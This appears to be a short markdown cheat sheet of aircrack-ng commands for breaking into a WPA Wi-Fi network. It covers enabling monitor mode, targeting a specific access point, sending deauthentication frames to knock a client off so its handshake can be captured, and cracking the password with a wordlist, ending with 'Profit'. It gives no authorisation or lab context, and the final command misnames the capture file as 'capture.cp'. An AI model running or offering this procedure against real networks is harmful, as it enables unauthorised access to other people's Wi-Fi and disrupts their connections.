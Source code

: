 1. Kill competing processes
	1. `airmon-ng check kill`
2. Put adapter in monitor mode
	1. `airmon-ng start wlan0`
3. Search area for networks
	1. `airodump-ng wlan0mon`
4. Refine search for channel, BSSID, and store in capture file
	1. `airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon`
5. Can deauth to grab handshake faster (-0=deauth, 1=how many times, -a=Access Point, -c=workstation)
	1. `aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 3C:F0:11:22:DB:E3 wlan0mon`
6. View capture file
	1. `ls capture*`
	2. `cat capture.cap`
7. Crack password (use custom wordlist or one from online)
	1. `aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cp`
8. Profit